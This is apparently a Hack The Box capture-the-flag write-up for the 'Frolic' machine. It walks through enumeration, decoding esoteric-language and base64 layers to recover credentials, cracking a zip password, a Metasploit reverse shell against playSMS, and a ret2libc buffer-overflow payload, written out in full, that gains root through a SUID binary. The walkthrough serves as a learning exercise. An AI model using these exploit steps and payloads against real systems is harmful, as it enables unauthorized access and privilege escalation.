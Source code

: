 # FROLIC
## Info

IP Address: 10.10.10.111  
OS: Linux  
Difficulty: Medium  

## System Enumeration

### NMAP
![alt text](https://github.com/Gesundheit/HTB-Writeups/blob/master/boxImages/Frolic/frolicnmap.png "NMAP")

We see two different ports that we can access, `1880` and `9999`

### Port 1880: Node-RED service
![alt text](https://github.com/Gesundheit/HTB-Writeups/blob/master/boxImages/Frolic/frolicRED.png "RED Service")

### Port 9999: nginx service
![alt text](https://github.com/Gesundheit/HTB-Writeups/blob/master/boxImages/Frolic/frolicnginx.png "NGINX")

## Enumerating Port 9999 with Dirbuster

I used the dirb wordlists `big.txt`
![alt text](https://github.com/Gesundheit/HTB-Writeups/blob/master/boxImages/Frolic/frolicdirbuster.png "Dirbuster")

Looking up all areas with response code 200, which we can access without restrictions

### /admin/

#### Source Code 

##### /login.js/

username: admin
password: superduperlooperpassword_lol

```
..... ..... ..... .!?!! .?... ..... ..... ...?. ?!.?. ..... ..... ..... ..... ..... ..!.? ..... ..... .!?!! .?... ..... ..?.?
!.?.. ..... ..... ....! ..... ..... .!.?. ..... .!?!! .?!!! !!!?. ?!.?! !!!!! !...! ..... ..... .!.!! !!!!! !!!!! !!!.? .....
..... ..... ..!?! !.?!! !!!!! !!!!! !!!!? .?!.? !!!!! !!!!! !!!!! .?... ..... ..... ....! ?!!.? ..... ..... ..... .?.?! .?...
..... ..... ...!. !!!!! !!.?. ..... .!?!! .?... ...?. ?!.?. ..... ..!.? ..... ..!?! !.?!! !!!!? .?!.? !!!!! !!!!. ?.... .....
..... ...!? !!.?! !!!!! !!!!! !!!!! ?.?!. ?!!!! !!!!! !!.?. ..... ..... ..... .!?!! .?... ..... ..... ...?. ?!.?. ..... !....
..... ..!.! !!!!! !.!!! !!... ..... ..... ....! .?... ..... ..... ....! ?!!.? !!!!! !!!!! !!!!! !?.?! .?!!! !!!!! !!!!! !!!!!
!!!!! .?... ....! ?!!.? ..... .?.?! .?... ..... ....! .?... ..... ..... ..!?! !.?.. ..... ..... ..?.? !.?.. !.?.. ..... ..!?!
!.?.. ..... .?.?! .?... .!.?. ..... .!?!! .?!!! !!!?. ?!.?! !!!!! !!!!! !!... ..... ...!. ?.... ..... !?!!. ?!!!! !!!!? .?!.?
!!!!! !!!!! !!!.? ..... ..!?! !.?!! !!!!? .?!.? !!!.! !!!!! !!!!! !!!!! !.... ..... ..... ..... !.!.? ..... ..... .!?!! .?!!!
!!!!! !!?.? !.?!! !.?.. ..... ....! ?!!.? ..... ..... ?.?!. ?.... ..... ..... ..!.. ..... ..... .!.?. ..... ...!? !!.?! !!!!!
!!?.? !.?!! !!!.? ..... ..!?! !.?!! !!!!? .?!.? !!!!! !!.?. ..... ...!? !!.?. ..... ..?.? !.?.. !.!!! !!!!! !!!!! !!!!! !.?..
..... ..!?! !.?.. ..... .?.?! .?... .!.?. ..... ..... ..... .!?!! .?!!! !!!!! !!!!! !!!?. ?!.?! !!!!! !!!!! !!.!! !!!!! .....
..!.! !!!!! !.?. 
```

A quick lookup shows that this is the Ook! language.
Using an online decoder, we achieve 
```
Nothing here check /asdiSIAJJ0QWE9JAS
```
Opening up `http://10.10.10.111:9999/asdiSIAJJ0QWE9JAS` , we get:
```
UEsDBBQACQAIAMOJN00j/lsUsAAAAGkCAAAJABwAaW5kZXgucGhwVVQJAAOFfKdbhXynW3V4CwAB
BAAAAAAEAAAAAF5E5hBKn3OyaIopmhuVUPBuC6m/U3PkAkp3GhHcjuWgNOL22Y9r7nrQEopVyJbs
K1i6f+BQyOES4baHpOrQu+J4XxPATolb/Y2EU6rqOPKD8uIPkUoyU8cqgwNE0I19kzhkVA5RAmve EMrX4+T7al+fi/kY6ZTAJ3
h/Y5DCFt2PdL6yNzVRrAuaigMOlRBrAyw0tdliKb40RrXpBgn/uoTj
lurp78cmcTJviFfUnOM5UEsHCCP+WxSwAAAAaQIAAFBLAQIeAxQACQAIAMOJN00j/lsUsAAAAGkC
AAAJABgAAAAAAAEAAACkgQAAAABpbmRleC5waHBVVAUAA4V8p1t1eAsAAQQAAAAABAAAAABQSwUG AAAAAAEAAQBPAAAAAwEAAAAA 
```

This looks like base64 encoding. Using `https://www.freeformatter.com/base64-encoder.html` and downloading the resulting zip, we see that its locked. Using fcrackzip to crack zip passwords, we get

![alt text](https://github.com/Gesundheit/HTB-Writeups/blob/master/boxImages/Frolic/froliczip.png "Locked Zip")
![alt text](https://github.com/Gesundheit/HTB-Writeups/blob/master/boxImages/Frolic/frolicfcrack.png "FCrackZip")

Opening up `index.php`, we get
```
4b7973724b7973674b7973724b7973675779302b4b7973674b7973724b7973674b79737250463067506973724b7973674b7934744c5330674c5330754b797367
4b7973724b7973674c6a77720d0a4b7973675779302b4b7973674b7a78645069734b4b797375504373674b7974624c5434674c53307450463067506930744c53
30674c5330754c5330674c5330744c5330674c6a77724b7973670d0a4b317374506973674b79737250463067506973724b793467504373724b3173674c543474
4c53304b5046302b4c5330674c6a77724b7973675779302b4b7973674b7a7864506973674c6930740d0a4c533467504373724b3173674c5434744c5330675046
302b4c5330674c5330744c533467504373724b7973675779302b4b7973674b7973385854344b4b7973754c6a776743673d3d0d0a
```
which seems to be hex code, translating hex to ascii
```
KysrKysgKysrKysgWy0+KysgKysrKysgKysrPF0gPisrKysgKy4tLS0gLS0uKysgKysrKysgLjwr
KysgWy0+KysgKzxdPisKKysuPCsgKytbLT4gLS0tPF0gPi0tLS0gLS0uLS0gLS0tLS0gLjwrKysg
K1stPisgKysrPF0gPisrKy4gPCsrK1sgLT4tLS0KPF0+LS0gLjwrKysgWy0+KysgKzxdPisgLi0t
LS4gPCsrK1sgLT4tLS0gPF0+LS0gLS0tLS4gPCsrKysgWy0+KysgKys8XT4KKysuLjwgCg==
```
which is easily identified as base64, decoding this
```
+++++ +++++ [->++ +++++ +++<] >++++ +.--- --.++ +++++ .<+++ [->++ +<]>+
++.<+ ++[-> ---<] >---- --.-- ----- .<+++ +[->+ +++<] >+++. <+++[ ->---
<]>-- .<+++ [->++ +<]>+ .---. <+++[ ->--- <]>-- ----. <++++ [->++ ++<]>
++..< 
```
A quick google search shows that this is brainfuck, decoding which gets us a string `idkwhatispass`

This string did not work as password on the `RED` service so I tried enumerating again with a different wordlist, which gave me a new directory

### /playsms/
![alt text](https://github.com/Gesundheit/HTB-Writeups/blob/master/boxImages/Frolic/frolicplaysms.png "PlaySMS")
Using the username `admin` and password `idkwhatispass`, we logged in

![alt text](https://github.com/Gesundheit/HTB-Writeups/blob/master/boxImages/Frolic/frolicplaysmslogin.png "LoggedIn Playsms")

Using metasploit, I was able to gain a reverse shell through playsms service

![alt text](https://github.com/Gesundheit/HTB-Writeups/blob/master/boxImages/Frolic/frolicplaysmsexploit.png "Metasploit")
![alt text](https://github.com/Gesundheit/HTB-Writeups/blob/master/boxImages/Frolic/frolicshell.png "Reverse Shell")

## User Exposed
![alt text](https://github.com/Gesundheit/HTB-Writeups/blob/master/boxImages/Frolic/frolicuser.png "User")

Finally got user

## Privilege Escalation

Following simple steps to check for escalation, I first check for SUID binaries in the system which can be exploited to escalate privileges:

![alt text](https://github.com/Gesundheit/HTB-Writeups/blob/master/boxImages/Frolic/frolicsuid.png "SUID rop found")

Finding `rop` means we can exploit it using ret2lib attack and gain root. Downloaded the binary to my local machine(by using the `download <file>` command in meterpreter) to debug it using gdb-peda.

### Using gdb-peda
Step 1: Creating a pattern of 100 characters
      `pattern_create 100`
      `AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL`
Step 2: Finding buffer limit using pattern offset.

![alt text](https://github.com/Gesundheit/HTB-Writeups/blob/master/boxImages/Frolic/frolicpatternfound.png "Finding offset")

### Using libc-search

Step 1: Use `ldd rop` to find what library its using
Step 2: Add gcc library to $PATH, using `export PATH = /usr/lib/gcc/i686-linux-gnu/:/sbin:/bin:/usr/sbin:/usr/bin`
Step 3: Upload libc-search.c to server (https://0xdeadbeef.info/code/libc-search.c)
Step 4: `gcc libc-search.c -o libc-search -lc -ldl`
Step 5: Search for system, exit using -s 
Step 6: Search for /bin/sh using -p (set libbase using -b)

![alt text](https://github.com/Gesundheit/HTB-Writeups/blob/master/boxImages/Frolic/froliclibc.png "Libc Enumeration")

### Creating Payload
The addresses are converted to little endian.

![alt text](https://github.com/Gesundheit/HTB-Writeups/blob/master/boxImages/Frolic/frolicadd.png "Address List")

Now, we simply create a python one-line payload to pass as our argument to the `rop` binary.
```
python -c 'print "A"*52 + "\xa0\x3d\xe5\xb7" + "\xd0\x79\xe4\xb7"+"\x0b\x4a\xf7\xb7"'
```
### Root Obtained

Running
```
./rop $(python -c 'print "A"*52 + "\xa0\x3d\xe5\xb7" + "\xd0\x79\xe4\xb7"+"\x0b\x4a\xf7\xb7"')
```
We obtain root

![alt text](https://github.com/Gesundheit/HTB-Writeups/blob/master/boxImages/Frolic/frolicroot.png "Rooted")

